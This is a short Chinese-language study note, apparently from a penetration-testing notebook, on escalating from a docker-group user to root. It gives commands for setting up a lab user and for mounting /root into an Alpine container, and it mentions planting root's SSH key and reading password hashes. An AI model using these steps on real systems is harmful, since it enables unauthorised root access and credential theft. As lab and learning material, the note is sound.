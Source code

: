 Docker组挂载
条件：普通用户在docker组。

利用docker服务启动镜像挂载目录，从而来访问root目录、etc目录等敏感文件来进行权限提升。
-复现：创建用户归类目录，添加到docker组
```
useradd -d /home/test -m  test
passwd test
usermod -G docker test
newgrp docker

groups test
su test
id
在docker组的用户才有运行docker
```
-利用：
```
docker run -v /root:/mnt -it alpine
主要的作用是：从Docker上面下载alpine镜像，然后运行;
-v将容器外部的目录/root挂载到容器内部/mnt，使用-it参数进入容器shell。
docker -it exec xxxx
cat /mnt
```
个人理解就是普通用户test通过docker挂载把/root目录挂载到了容器内部，其本来是不能访问/root目录的，
现在可以通过访问容器内部挂载的目录实现越权，并能实现创建、修改等操作。
上传root的ssh公钥，查看root密文。